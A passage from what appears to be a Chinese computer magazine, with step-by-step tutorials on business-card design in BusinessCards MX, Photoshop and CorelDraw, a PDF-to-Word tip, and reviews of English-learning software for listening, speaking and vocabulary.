总体而言，这款软件特别适合初、中级别的个人用户。除此之外，用户还可以选择类似的“名片制作专家”，软件下载地址为：http://www.skycn.com/soft/26988.html。该软件也内置了许多标志和背景图片，可以自定义图像为背景或是标志，背景色还支持渐变功能。

## 实例剖析：循序渐进学做“面子”工程

在上述名片设计中，较多的运用了模板技术，因此设计起来更加简单。在现实生活中，大批量的名片制作更加普遍。因此，使用Photoshop、CorelDraw等专业软件制作名片的场合也十分常见。下面，以商务名片为设计对象，通过案例与技巧相结合的方式，循序渐进讲解名片设计技巧。

### 1. 商务助手：用BusinessCards MX轻松“制造”名片

BusinessCards MX是一款比较专业的商务名片制作软件，软件界面经过特别设计，包含了225种常用的名片模板，尤其在名片特效、名片信息编排及名片打印上设计独特，能够满足名片制作一条龙的需求。

软件下载地址：http://www.businesscards-mx.com

## 第1步：新建名片文件

下载并运行该软件，可以看到一个十分直观的设计界面。单击“文件”菜单下的“新建”选项，即可进入设置尺寸的选择界面。这里包括了：70×40、80×50、90×55等各种尺寸，用户可以根据设计需求灵活选择。然后，选择右侧的设计模板格式。在本例中，选择比较常见的居中模板，如图7所示。

## 第2步：编辑名片的文字信息

设置尺寸和文字格式后，进入名片编辑界面。在这里，用鼠标直接选中某个文字对象，即可在右侧的文本框中对其进行编辑。在“对象”选项卡中，可以设置加粗、倾斜、下划线、字体颜色、字间距等。如图8所示。

## 办公应用 SOLUTIONS

设置字体特效：选择某个文字对象，单击右侧的“特效”选项卡，可以设置多种文字特效。包括：蒙板、亮度/对比度、HSL、墨水、阴影、边框、梯度、Alpha转色彩、材质等。如果需要查看实际效果，可以单击该面板上的“读取风格”按钮，即可看到各种实际显示效果。软件还提供了针对每个特效的详细参数设置。如图9所示。

> 小贴士
设置字体特效时，可以调整各种参数来获得理想效果。

## 第3步：添加图片和其他标志信息

除了模板已经提供的相关名片信息，软件还提供了丰富的标志图片、自定义构造图形等辅助设计素材。直接单击编辑界面左侧的图形按钮，就可以将其加入到编辑窗口中。同时，软件会自动生成相关的图层信息。

## 第4步：编辑名片图层信息

BusinessCards MX借鉴了Photoshop等软件的图层设计方法，通过多个图层的叠加，丰富名片的信息。单击某个图层，即可在编辑区域自动选择该对象。如图10所示。

## 第5步：保存并打印

设计完毕，单击【Ctrl+S】快捷键或者直接单击“保存”按钮，就可以准备打印了。单击“文件”菜单下的“打印预览”选项，在弹出的界面中可以设置纸张大小及页边距、间隙等参数。如有必要，还可以将名片文件直接输出为JPG等格式文件。设置完毕，单击右下角的“打印”按钮，就可以输出文件了。如图11所示。

### 【设计要点】

选择背景或底图排版时，需要注意以下几点：

- (1) 底图布满版面，如果整版颜色太强烈的话，有时会太过于抢眼，观看者的目光不易集中在文字区。
- (2) 内容摆在中间横穿整个版面，上下两头留空，这样做文字比较容易突出。也可以上下两头做成过度透明，让图案不会显得那么突兀。
- (3) 可以将图摆在四周的任何一边，边缘做透明处理，视觉效果也不错。
- (4) 如果两张不相融的图硬要摆放在一起时，可以把不太重要的那个做成浅底。
- (5) 如果不想做更多的处理，也可直接摆在一个角就行了。
- (6) 如果需要将位图布满整版，而文字不易编排时，单位用粗体字做成反白，在摆放地址的地方做个半透明的块，人名和地址一起摆在透明块里，也不失为一种办法。
- (7) 如果想突出某一个能显示主题的图，可将图摆在名片中心位置，文字部分摆在一个角落。巧妙地编排一下文字位置和大小，让名片增加一些艺术感。

的“打印预览”选项，在弹出的界面中可以设置纸张大小及页边距、间隙等参数。如有必要，还可以将名片文件直接输出为JPG等格式文件。设置完毕，单击右下角的“打印”按钮，就可以输出文件了。如图11所示。

### 2. 如虎添翼：巧用Photoshop打造精美名片

Photoshop CS是Adobe公司的软件产品，也是现在应用最为广泛的图像处理及设计软件。它集图像编辑、设计、合成、网页制作以及高品质图片输出等功能为一体，在名片设计方面的功能十分强大。尤其是在图案设计方面优势比较明显。

## 第1步：新建并设置名片参数

打开软件，单击“新建”命令，在弹出的“新建”对话框中，设置名称为“我的名片”，模式为“CMYK颜色”，文档背景为“透明色”。图像大小可以根据设计需求灵活设置。如设置为标准尺寸90mm×55mm。

> 小贴士
在Photoshop中，设计图案时应考虑以下因素：
（1）出于打印质量的考虑，建议图片色彩为CMYK模式，避免使用RGB模式。
（2）底纹或底图颜色的设定不要低于5%，以免印刷成品时无法呈现。
（3）名片裁切误差范围为1mm内，出血上下左右应保留各3mm。
（4）所有输入或自行绘制的线条色块等图形，其线框粗细的设定不可小于0.1mm。否则印刷成品将会有断线或无法呈现的状况。

### 第2步：设置背景效果

单击工具箱中的矩形选择工具，在图像背景上拖动鼠标，设置一个略小于图像的选择区域。例如，现在要填充背景色，单击工具箱上的前景色图标，设置前景色为“白色”。打开菜单栏中的“编辑”选项菜单，单击其中的“填充”命令，弹出“填充”对话框，填充前景色。右击图层面板中的“图层1”图层，在弹出的快捷菜单中单击“效果”按钮。在对话框中设置效果为“阴影”，不透明度为“75%”，单击“确定”按钮，对该图层进行阴影效果处理。

### 第3步：添加文字信息及效果

单击工具箱上的文字工具按钮，弹出“文字工具”对话框，在对话框中，设置字体颜色为黑色，输入文字后选择文字字体和大小。应用同样的方法完成名片中的文本输入。注意：每使用一次文字工具，图层面板中就增加一个图层。用同样的方法在名片上输入名字、头衔、地址、邮编、电话、传真等信息，同时注意字体的大小，并适当地调整各个字的位置。具体方法是点选工具箱上的文字工具，在图片中用鼠标选中要调整位置的字，等光标变成移动工具的形状时，拖动这些选中的字到合适的位置即可。

> 在Photoshop软件中，文字的排版需要注意：
- （1）一般名片的标准尺寸为90mm×55mm，还有不规则模切形式的，但文件在提交给输出公司时要注明正确尺寸，上下左右也是各3mm的出血。
- （2）文案的编排应距离裁切线3mm以上，以免裁切时有文字被切到。
- （3）完成稿件后，应将文字栅格化，以免输出制版时因字体而出现错误。
- （4）TIFF格式储存，勿以PSD格式储存。

### 第4步：添加图片信息

在Photoshop中打开待插入的图片，将图片粘贴到“我的名片”文件中。这时，图层面板上会自动出现一个新的“图层2”，用鼠标单击工具箱上的移动工具按钮，将图片拖动到合适的位置。使用类似的方法，还可以加入其他线条或Logo信息。如图12所示。



### 第5步：保存文件

首先，打开菜单栏中的“图层”选项菜单，单击其中的“拼合图层”命令，拼合所有图层。然后，打开菜单栏中的“文件”选项菜单，单击其中的“保存”命令，弹出“存储为”对话框。在对话框中，设置“文件名”为“我的名片”，图片格式选定为“JPEG”，单击“保存”按钮保存文件。需要修改文件时，单击图层面板的“历史记录”选项，其中记录了制作名片的每步操作，如果有必要，还可以通过历史记录进行“还原”和“撤销”操作，从而达到自己满意的效果。

## 3. 绘图专家：巧借CorelDraw设计名片

被称为绘图大师的“CorelDraw”是一个由加拿大Corel公司开发的矢量绘图程序，目前已广泛应用于广告设计、网页制作和平面设计等领域。其功能非常强大，界面也非常友好，并十分好学易用。现在，很多专业打印店都采用了此软件进行名片设计，软件最新版本是CorelDRAW12。从CorelDRAW9（中文版）开始，软件中集成了许多实用的程序，使得名片设计等工作可以十分容易完成。下面，介绍一个使用CorelDraw制作商业名片的方法。

- 第1步：新建文件

打开CorelDraw软件，以CorelDraw12中文版为例。单击“文件”菜单下的“新建”选项，系统将建立一个名为“图形1”的文件。

- 第2步：设置对象

选用工具箱中的矩形工具，在系统给定的纸张上面画一个矩形，调整大小为90 x 55mm（名片的成品外框），然后再在其内部重新画一个矩形，大小设为80 x 45mm（名片的有效印刷区）。按Shift键选中两个矩形，单击“排列”菜单下的“对齐与分布”，然后选择将两个矩形居中对齐。

- 第3步：对图层进行编辑

为了编辑的方便，单击“窗口”菜单下的“泊坞窗”，选择“对象管理器”，这时会出现对象管理器面板。在对象管理器中，单击右边的小三角形，选择“新建图层”，这时在对象管理器的窗口中会多出一个“图层2”的项目出来。用鼠标选取“图层1”，单击右键，在弹出的菜单中，设置“图层1”为不可编辑状态。如图13所示。



> 【设计要点】
在名片设计中，文字的安排要有节奏、有层次，要讲究点、线、面的规划。通过字体形态的变化，处理好轻重缓急。具体来说，文字在名片设计中有齐头、齐尾、虚实、前后、居中、分割、组合等多种形式。
- 齐头：每一行或每一段的开头字，排在同一行的第一格，每行每段开头均不空格。
- 齐尾：每一行或每一段的末尾字都安排在一行的最后一格，后边取齐。
- 虚实：由于文字在名片中的位置不同，设计的方式也应有所区别。可考虑实心、空心、笔画的粗细、字形大小以及色彩的对比方式，以强调主次关系。
- 前后：在名片的主题与辅助文之间，用不同的色彩来处理，使文字在色彩的作用下产生远近距离，丰富画面层次。
- 居中：名片的方案依据主题及设计的需要，以画面的中心为准根据层次依次向上下或左右排开。
- 分割：主要考虑构图需要，用色彩和线条将主题与辅助文分开，使人容易认识，一目了然，层次感更分明。
- 组合：把名片的文字进行多种方式的组合与排列，会形成丰富多彩的视觉效果。

## 4. 锦上添花：名片的后期加工与制作技术

一张精美的名片对纸张和印刷方式也有着很高的要求。例如，对于电脑名片纸来说，因其大幅面和低厚度纸张不能立即使用，还要进行过塑、模切、烫金、装盒等后期加工。对于名片印刷来说，不同的印刷方式对名片价格有很大影响，甚至还影响名片的美观。下面，重点讲解这些制作设备与印刷方面的知识。

首先，介绍几款常见的名片制作设备。

名片印刷为一特殊的印刷行业，有其专用的生产设备、特殊的技术要求和专门的生产环境。第一阶段是名片印刷前期，这个阶段需要对名片进行设计和排版，主要包括电脑、激光打印机、扫描仪、晒版机等。第二阶段是名片印刷过程中的设备，主要包括激光打印机、名片胶印机、丝网印刷机等。第三阶段是名片后期加工阶段，主要包括塑封机、切纸刀、切卡刀、烫金机等。

其次，是名片用纸。

从介质上来分，名片可以分为纸质、硬塑料、金属、光盘载体等。不过，纸质名片应用相对较多，主要有：合成纸、过塑铜板纸、过塑胶片等。以合成纸（即“撕不烂”名片纸）为例，实际上就是塑料薄膜。这类纸张只适合用激光打印机制作名片，不能用喷墨打印机制作，因为塑料薄膜不能吸收墨水，喷墨打印机喷出的彩色墨水在合成纸上无法被吸收，即使干后也无法使用，一擦即掉。选购合成纸时一定要注意选用高温合成纸，不能使用普通胶印名片使用的合成纸，否则会损坏激光打印机。这是因为高温下的普通合成纸会融化，并粘在激光打印机出纸的定影部位，从而造成激光打印机的损坏。

再次，是名片印刷。

目前，名片印刷主要有三种方式，分别是：激光打印、胶印和丝网印刷。其中，最简单的是激光打印，其次为胶印，丝网印刷则最为复杂。以彩色激光名片为例，运用电脑和彩色打印机即可完成。印刷时，名片用纸采用A4纸张，每张纸可做十张名片，一盒简单名片由接单、排版到交货可在三十分钟内完成。此外，如果印刷量比较大，还可以采用胶印，它的制作过程比较复杂，需要运用电脑、菲林、晒版机、名片胶印机配合才能完成。如果用胶印印刷，注意平时要养成将位图转成CMYK模式的习惯。对于塑料和金属介质的名片，就只能使用丝网印刷的方法了，目前还有很多人使用手工丝网印刷的方法来制作名片。

最后，是名片的后期加工制作。

主要包括：过塑、模切、烫金、装盒等工序。其中，低厚度的电脑名片纸都要进行加厚处理，当前唯一的办法就是采用塑封；切卡是把塑封后的名片纸裁切成名片；烫金是名片印刷中的最后一道工序，就是用专门的烫金机把各种色彩的电化铝材料烫印在名片上；名片制成后，装进专用的名片包装盒中，即完成名片的全部制作过程。

可见，尽管名片设计制作只是方寸大小，却包含了美术设计、市场营销、数码印刷乃至心理学等专业方面的知识。只有巧妙运用这些设计知识与软件，结合恰当得体的工艺准则，就可以设计出个性化、专业化的精美名片了。

## PDF转DOC，百度硬盘来兼职

◆文/华军

最近下载了很多电子书，可惜都是PDF格式的，观看太不方便了。用了很多PDF转DOC的软件，效果都不理想，郁闷呀！无意之中，发现百度硬盘可以解决这个问题。不信？下面和我一起试试看。

- 第一步：先从http://download.it.com.cn/softweb/software/network/searching/200511/14541.html下载“百度硬盘搜索”并安装，然后根据提示，完成对硬盘的索引工作。
- 第二步：索引工作完成后，运行“百度硬盘搜索”，在“文档”下面双击“PDF”类别，搜索界面就会列出你硬盘中的所有PDF格式的文件。
- 第三步：选择你要转换的PDF文件，点击该文件下面的“快照”链接，“百度硬盘搜索”就会在IE浏览器界面中打开此文件，然后点击“文件→使用Microsoft Office Word 编辑”，就可以在Word中打开该文件了。

> **小提示：**
- 1. 由于制作PDF书籍可供使用的软件很多，因此有一部分的PDF文件可能无法转换。
- 2. 这种转换方法也无法提取图片。

## 体验英语学习中鲜为人知的技巧

◆文/彭文波

在学母语的时候，我们首先接触的就是“听”。只有先听了之后才有说，也才有读和写，所以，“听”是任何一门语言学习的基础和首要方面。那么该如何学好英语听力呢？

### 1. 主打软件：用“大口啃英语”练听力

这里首先推荐一款免费的主力软件：“大口啃英语”。以“大口啃英语·美国之音 V1.02”为例，该软件素材源自美国之音慢速英语（VOA Special English）及美国之音常速英语（VOA Standard English）广播，完全是原汁原味的地道美音。

软件下载地址为：http://www.pgy.com.cn/sykxiazaivoa.htm

下载该软件后，直接解压到本地文件夹，点击启动文件即可进入界面。

- 第1步：选取英文

这个步骤的主要作用是选择一个句库，使之成为当前练习对象。句库文件的后缀是.syk，位于软件安装文件夹的Sentence目录中。在软件界面中，包含了专辑名列表和句库列表。其中，右侧的句库列表可以从句库文件夹中搜索出来，当前选中句库则用红色显示。界面右下角显示了当前句库的详细信息，从“平均语速”等信息可以了解该句库的难易程度。如图1所示。



- 第2步：听读练习

在这个功能中，所有句子的英文、译文及句中的单词、词组都能够朗读，单词可以显示词义，重要语法点都有精准的讲解，用户还可以在这里做笔记、标注中心词及生词。同时，该功能可以用于泛听、精读、听读、口译等练习中。需要标记“核心词”时，单击中间菜单上的“核心词”单选按钮，软件就能够自动将句中的核心词标注出来；需要记笔记时，单击“笔记”按钮即可在界面中输入相关学习体会；对于不熟悉的单词，直接选中该单词，在弹出的注释对话框中单击“生词表”图标，就可以将其加入生词表中。如图2所示。



- 第3步：逆向听写

只有通过听写，才能真正弄清楚自己哪些东西没有掌握。软件提供的“逆向听写”功能就体现了这方面的内容，主要包括：灵活的学习计划、独创的“猜词”、细致的提示、完备的现场及学习记录等。如图3所示，当听写核心词“prices”时，系统会给出自动提示，听完一个词后按空格键或回车即可继续下一个词的听写。此外，软件还提供了写全句、写生词、逼听等功能。

- 第4步：单词汇总

句子中的单词才是活的、有生命力的，在具体的语境中才可能真正掌握单词。软件以单词或词组为关键词，能够自动快速地汇总出其所有相关的句子，按不同的词义分类排列，就像一本会说话的双语“语境词典”。如图4所示。



总体来看，该软件功能实用简单，对用户提高听力有很大的帮助。如果有很好的英语素材，普通用户还可以亲手制作符合自己特殊需求的句库，从而打造出更加个性化的学习素材。

### 2. 助听高手：能飞英语视听学习机

“能飞英语视听学习机”是一款影视英语专业工具。该软件最大的特点在于：能够构造互动的影音学习环境，对视频播放的操控非常便捷。例如，可逐句控制播放，设置播放循环间隔，分类指定各个句子的播放次数，标注生词和重点词等。

软件下载地址：http://www.langfly.com/sfdownload/sfdownd.shtml

下载并安装该软件后，即可进入软件界面。该界面主要由四部分组成，分别是：主窗口、资源管理器、播放器、编辑器。其中编辑栏主要由工具栏组成，对于不同的文件类型，会自动出现相应的工具栏。如图5所示。

- 第1步：加入并播放媒体文件

在资源管理器中，用户可以随时加入自己喜欢的媒体。单击鼠标右键，在弹出的菜单中选择“暂停/播放”选项，即可播放当前媒体。此外，该网站还推出了海量的英语学习资源免费下载，包括：英语电影、美剧、商务英语、音乐、教材等。


逆向听写实用技巧。准备听写材料时，总长最好在一到两分钟之间。使用时，建议先“通听”几遍，然后再开始听写。对于听不懂的词，可以先空着，通过反复听几遍，直到将所有的词都听懂为止。



- 第2步：播放器操作

视频上方有一排十分醒目的按钮，可以进行脚本学习、脚本同步、听写、测试、裸媒体听写与标注、全屏播放等操作。以脚本学习为例，文件的扩展名为lre。可通过资源管理器的右键菜单，或者播放器的右键菜单进入脚本学习。如图6所示。


个性化听写、复读/复播操作。要练习听力，就需要大量练习听写。选中要听写的视频，按鼠标左键，从播放器控制菜单中选择“听写”按钮即可。这些功能还可以应用于听读、复习、泛听、复读、复播、授课等场合。

- 第3步：编辑器操作

编辑器主要通过工具栏来操作，鼠标在工具栏的按钮上稍作停留便有提示显示。编辑器基本的功能包括：新建、打开、保存、打印、查找与替换操作、剪贴板操作、恢复与撤销、字体及其大小和颜色选择等。要控制媒体的播放时，可以使用播放器的右键菜单或播放控制按钮。如图7所示。



需要对某个重点句进行注解时，选中该句，单击“句子属性”按钮或按F2快捷键，即可弹出注解对话框，对句子进行注解。

总体来看，该软件播放控制、编辑注释功能强大，操作起来十分简单，并提供了丰富的素材资源，尤其是可以免费使用，对提高听力水平有很大帮助。

对媒体资源的管理。资源的树形目录与Windows的资源管理器类似，在此目录中可以进行文件拖动和展开节点、重命名节点、移除节点等操作。单击主界面中的“资源”菜单，可以看到“添加虚拟文件夹”、“添加媒体”等选项，它们可以对媒体进行逻辑管理；“添加磁盘目录”则可以把一个物理目录下的子目录和文件全部调入，并通过“刷新磁盘目录”和物理磁盘上真正的目录保持一致。

## 说：寻找口语快速提高的捷径

近年来，英语口语是否标准已成为判断英语水平的一个重要标志，越来越多的用人单位开始在录用时加试了口语。拥有一口流利的英语也越来越成为英语爱好者的愿望。从国内英语学习的情况来看，“中国式英语”和“哑巴英语”的问题十分严重。有的学生学习了十几年英语，仍然不能开口说英语。在这方面，功能出色的多种英语学习软件可以助用户一臂之力。

### 1. 练口语，从“英语音标大师”开始

“中国式英语”或“哑巴英语”最明显的特征是：发音不标准，不敢开口。因此，首当其冲的是解决发音问题。这里推荐一款音标训练软件“英语音标大师V2.51”，这是一款用于快速取得英语音标和英语单词发音学习测试软件。它包括了单个字母的发音、整个单词的发音乃至全篇的朗读。软件下载地址为：http://abc.sy520.com。下载完毕，解压后即可完成安装。软件界面如图8所示。


在音标练习方面，软件提供了音标认读、字母认读、英文朗读、辨音联系、发音规则等功能。在发音规则中，包含了英语音标发音规则、英语音标重音规则、英语音标认读规则、英语发音教程等内容。这部分免费的教学内容十分实用，讲解生动有趣而且发音标准，用户可以对照进行练习。可以说是一份免费的“超值大餐”。如图9所示。



> “英语音标大师”可以方便地进行音标转换和音标输入，将整篇英文单词快速转换成相应的国际音标，并可直接输出到Word文件中。在排版时，具有英文与单词上下对照、左右对照等格式。

总的来看，该软件界面简洁，功能十分实用，而且提供了大量的免费口语训练教程，对于规范口语训练有很大的帮助。

### 2. 提高训练，让“口语与单词V2008”来帮忙

在掌握基础口语的基础上，可以使用“口语与单词V2008”来继续提高。该软件集英语口语、听力学习和背单词于一体，运用幽默风趣的卡通角色进行英语发音，可以全面地掌握英语口语、对话和单词。此外，软件加强了趣味化功能，通过综合运用逆向学习法和疯狂英语学习法，对学习者具有很好的启发作用。

软件下载地址：http://www.engqq.com

- 第1步：设置卡通化学习环境

软件运行后，即可选择电脑卡通人物，自定义学习环境。这个学习环境以纯正的英语朗读精选的英文语句或单词，极具娱乐性与趣味性。学习者在使用电脑进行工作、学习或娱乐时，就能轻松地掌握各类日常英语会话、英语单词。

- 第2步：选择课程

进入学习之前，在两个动物形象中任意一个上右击，在弹出的菜单中选择“选择学习库”，从其子菜单中就可以看到程序提供了多类学习库。软件内置了丰富的英语情景对话和常用口语。其中，情景对话包括：英语900句、日常对话、社交英语、宾馆英语、情景会话、酒店英语、旅馆英语、餐厅英语、电话英语、每天一起练口语、用简单英语谈生意、面试求职英语、关于天气的经典会话、机场实用英语；口语库包括：常用口语、英语格言、生气英语、商务口语、英语谚语、英语十句话、银行英语口语、英语口语集锦、“九”英语闯天下、实用英语口语、地道美语、李阳口语、疯狂口语、吵架口语、真理名言、英国流行口语、精彩口语、100个绝佳句型等。

- 情景对话包括：英语900句、日常对话、社交英语、宾馆英语、情景会话、酒店英语、旅馆英语、餐厅英语、电话英语、每天一起练口语、用简单英语谈生意、面试求职英语、关于天气的经典会话、机场实用英语；
- 口语库包括：常用口语、英语格言、生气英语、商务口语、英语谚语、英语十句话、银行英语口语、英语口语集锦、“九”英语闯天下、实用英语口语、地道美语、李阳口语、疯狂口语、吵架口语、真理名言、英国流行口语、精彩口语、100个绝佳句型等。

- 第3步：设置个性化环境和学习库

通过右键菜单选择，用户能够对播放控制、背景音乐、界面皮肤、悬浮窗口、卡通角色、中文语音等对象进行设置。而且，用户可以将自己使用频率比较高的，或者难以掌握的内容添加到笔记库中。在右键菜单中选择“编辑笔记库”下拉菜单中的情景对话笔记库、口语笔记库或单词笔记库，在打开的窗口中即可进行设置。

- 第4步：跟读口语练习

借助软件的“英语跟读练习”功能，可以让用户对着麦克风跟着标准的英语语音大声的说，并可以检查发音的准确性。听写功能可以对口语或单词进行听写，并能进行评分。当碰到较难或陌生的句子与单词时，可以先把它添加到“学习笔记”中。如图10所示。

跟读训练与口语提高。跟读有很多好处，一是能强化语音语调的训练，二是能培养语感，增强记忆。许多英语学习者在反复跟读后会发现，一些单词、句型和习惯用法不用刻意去背就记住了。但需要注意的是，跟读只是一种模仿，变换讲述则更有利于求异思维的培养。听完一篇短文或对话后，把第一人称改为第三人称，把故事改变为对话，对话改成故事，重新组织思路进行表达，思维能力和口语能力就都能得到极大提高。

此外，软件还可以方便地自行增加和修改情景对话和文档的内容，或者选择需要的英语口语或英语单词进行打印，甚至还可以制作出个性化的MP3学习文件。

### 3. 多管齐下，快速提高口语水平

要突破传统的英语学习方式，就必须通过各种学习工具来提高训练水平。考虑到目前有很多软件需要注册收费，而部分优秀功能则是开放的。下面择优取精，选择了多款学习软件进行讲述，供广大用户选择。

### (1) 英语口语对话王V2008

“英语口语对话王V2008”最明显的优势是学习资源丰富，它集合了疯狂英语900句、走遍美国等61大类的英语情景对话及口语教材，每个大类情景对话都分为若干个小情景。所有的情景对话都是以可爱的卡通人物相互对话形式进行朗读，用户还可以使用听写功能来检验所学句子的掌握情况。软件下载地址为：http://www.newhua.com/soft/21902.htm。使用之前，需要选择卡通对话的角色。在主窗口中点击右键，在弹出的快捷菜单中选择“卡通对话角色”，就可以对它们进行设置了。使用时，可以对朗读的速度、音调、朗读间隙时间、每次朗读次数等进行设置。

在口语训练方面，该软件提供了两个实用的功能，分别是“看音标学句子”和“语言复读机”。打开软件后，用鼠标单击Windows上方的窗口，在弹出的菜单中分别选择“看音标学句子”或“语言复读机”选项，就可以进行口语训练了。以“看音标学句子”为例，单击该界面的“选择情景对话”按钮，即可找到需要朗读的句子。单击左侧的某个单词，会显示该单词的音标信息和单词解释。单击右侧的“朗读当前句子”按钮，就可以进行跟读训练了。如图11所示。



### (2) 慈心影文学习机V12.2

“慈心影文学习机”的特色在于：以原声影视为素材进行英语口语训练。软件下载地址为：http://seawan.nyist.net/kle。软件提供了方便的播放控制和复读功能，使用户在初次学习的时候就获得相当深的印象。通过温习、总结、复习一条龙的完整过程，强化心理取向，能够形成牢固的直接反应的心理惯性，从而真正达到掌握外语的目的。在学习的过程中，用户可以随时点击“录音”按钮进行录音，并以MP3格式存放。当点击“停止录音”按钮后，还可以使用“播放录音”按钮播放录制的MP3文件，再次点击可恢复原素材媒体的播放。另外，软件还具有WAV文件向MP3文件转换、录音机、网络电台内容播放、自定义学习影视和字幕素材、共享书写笔记及全面兼容“歌词秀”格式和金山词霸等功能。

### 让背单词成为一种享受

说到背单词，我们首先会联想到“枯燥”这两个字。的确，背单词的过程十分乏味，时间长了还容易忘记。那么，怎样让背单词成为一种享受呢？目前，出现了许多优秀的单词软件，通过多媒体互动，能够明显提高学习的速度。

### 1. 单词风暴2008：让背单词更加人性化

“单词风暴2008”是使用全新记忆理念精心打造的一款多语言速记软件。在记忆中首次引入头脑风暴，激发大脑潜能，极大地提高使用者学习兴趣，并充分发挥电脑辅助记忆的优势，运用多种科学的统计分析模型以及艾宾浩斯记忆曲线分析用户的记忆行为，科学地管理记忆过程，实现以英语为主，各种外语单词、句子和口语的大批量、超快速记忆。免费版本的下载地址为：http://www.WordStorming.com。软件界面如图12所示。

### 第1步：选择辞书，设置学习计划

使用之前，可以根据学习向导来设置辞书。单击软件界面上方的“开始”按钮，即可选择需要学习的内容。在选择方式上，软件提供了顺序选择、随机选择和反向选择等方式。在记忆方法上，单词风暴包含了“词义风暴”、“拼写风暴”、“听力风暴”等方法，通过选择、拼写、语音识别等方式，能够快速记住单词的发音、拼写和含义。设置完毕，输入学习计划名称，如选择“速记高手”、“一般慢速”、“侧重拼写”等。如图13所示。



> 【小技巧】如果不使用学习向导，也可以手动建立学习计划。在手动建立学习计划前，必须选择本次要学习的单词，这类类似于在书上勾选重点单词。每次标记的数量一般在50～200个为宜。



### 第2步：开始背单词

根据 “词义风暴”、 “拼写风暴”、 “听力风暴”等学习计划设置的不同，软件会给出不同的记忆方式。以 “拼写风暴”为例，软件会首先提示当前单词的主要意思，按F4键则可以提示读音。如果背单词的过程中拼写错误，会自动进行拼写检查。如图14所示。



### 第3步：使用浏览背单词

软件提供了多种背单词的方式， “浏览背单词”就是其中之一。用户可以逐个浏览学习计划中的所有单词，设置是否拼读单词、朗读例句，或者点击音标、例句就能进行朗读。浏览背单词的拼写检查功能十分完善，智能模式下可以清楚地看到哪些字母错漏或者多余了。如图15所示。


> 小技巧：软件还提供了对话背单词的方式，这种方式类似于MSN聊天，即把单词当作MSN中的好友。在这种模式下，单词风暴隐藏为任务栏里的小图标，在可设定的时间间隔里，标有音标、单词、解释的小窗口会从屏幕的下方“升起”，类似于MSN朋友上线提示。在对话背单词中，可以设置单词出现的时间间隔、显示的时间、位置，以及使用淡入淡出效果、半透明效果等，使得背单词的过程十分有趣。

### 第4步：单词游戏

寓游戏于学习，可以极大的提高学习乐趣。“单词风暴2008”提供了“单词风暴连连看”游戏，用户可以在游戏中练习背诵单词。该游戏的界面很好看，布局可以按照屏幕大小或游戏难度调节，背景图片、音乐都能方便地自定义。此外，单词风暴连连看游戏还可以和单词风暴内含的计划管理、学习向导、标记助手、统计分析图功能联合起来用，功能非常强大。

### 2. 疯狂单词V3.08：轻松进入记忆状态

疯狂单词是一个成名较早的软件，至今仍然拥有很高的人气。软件依靠内建的词汇量动态估测、自动难度进级、效果自适应复习等智能块，用户可以轻松进入记忆状态。值得一提的是，软件提供了三种学习模式和十余种学习方式，用户可以随意组合。从“无忧记忆”模式到“自由空间”模式，系统的智能化体现虽然是逐渐降低的，但是用户自由度却不断增加，能够满足不同要求的用户以及不同阶段的需求。下载地址为：http://wainsoft.com。

以无忧记忆模式为例。在该种模式下，用户无需选择书本，只要在计算机的提示下答题，系统会自动测试词汇量，并自动调整单词学习的难度级，随着词汇量不断上升，所学单词的难度级会越来越大，用户学习的积极性也会越来越高。软件界面如图16所示。



除了无忧记忆模式，软件还提供了词库自选模式和自由空间模式。词库自选模式最大的特点在于提供了书本选择和强大的范围限定两个功能，用户可以自己选择书本并确定范围进行词库突破。如果当前词条没有音标、解释、记法、例句，则从系统库中自动查找并添加。“自由空间”模式是为某些用户希望自由快速学习或复习单词而特别定制的。该模式没有答题方式的人机交互，系统不会自动改变单词状态，用户可以手动更改。

通过上述两款比较典型的单词记忆软件，用户已经可以比较熟练地利用相关软件背记单词了。值得一提的是，目前的单词软件非常多，而且功能也十分优秀。如“我爱背单词 V8.52”（http://www.flyenglish.com）、“向形单词通”（http://www.leword.com/）、“英语单词全能记忆王V2.38”（http://veryhappy.ell.163ns.com）、英语八哥（http://www.8ge.net）等。这些软件的使用方法大同小异，这里就不作具体介绍了。

### 写译：借助软件全面提高英语水平

在英语学习中，听写可以培养学习者对不同音素及语音语调的识别能力，提高正确使用词汇、语法以及口头复述的能力。但是，传统的听写训练大多仅仅是为了应付考试，流于形式，很多学习者对听写往往会产生一种恐惧感。至于翻译，平时的训练则更少，考试之前临时“抱佛脚”的现象比较多见。为了解决这些问题，下面精选了一系列优秀软件，为用户在英语综合能力训练上取得突破打下基础。

### 1. 全程提高：借助考试学习软件把握知识点

英语软件的优势在于趣味性，但是，学习毕竟是一件很严肃的事情；最终能否学到英语知识才是唯一的检验标准。鉴于此，这里推荐一款优秀的英语学习软件，即“CET4英语四级学习软件V5.6”，该软件的功能模块包括：单词记忆、单词跟读、有声词典、全文朗读、单词补全、单词默写、英汉-汉英双向测试、例句学习、仿真试题、单词学习统计、单词学习曲线、仿真试题学习统计、美国俚语、谚语、名人名言动态学习等学习模块等。整体上看，知识点十分集中，而且实战效果很好。

软件下载地址为：http://www.skycn.com/soft/17653.html

安装完毕，即可看到软件的HTML网页格式界面。典型功能介绍如下。

（1）音标学习和单词记忆
在“音标学习”这个栏目，用户可以了解发音原理，认识48个国际音标并能正确地朗读，具有拼读单音节及少数双音节音标的能力。为了加强这方面的练习，还列有专门的学习资源链接。在“单词记忆”栏目，则包含了单词初记、单词跟读、有声词典、全文朗读等功能。总的来看，普通英语学习软件所具备的基本功能，该软件也全部涵盖。

（2）综合能力测试
主要体现在“过关斩将”和“综合能力”等栏目。在“过关斩将”中，主要有英汉测验、单词补全、单词听写、单词默写等功能；在“综合能力”中，包含了听力测试、仿真试题、资料库、词汇量测试等。在测试结束后，软件会给出详细的答题情况点评，而且测验结果会保存在学习曲线中，可以随时调出来查看。如图17所示。



（3）学习曲线和游戏功能
为了方便用户了解自己的成绩，软件提供了学习统计功能，用户可以详细了解自己的学习次数、测试次数、答对次数、出错次数，从而得到非常明确的学习反馈信息。此外，软件还提供了一个“单词历险”游戏，通过惊险的海底搏斗，可以帮助用户在娱乐中记住单词。

### 2. 功能全面的“Dr.eye译典通”

Dr.eye译典通最大的特色在于：功能全面，在写译方面功能突出。该软件的主要功能模块包括：单词通、句型通、试题通、语音通等。软件下载地址：http://www.dreye.com.cn。

（1）句型通
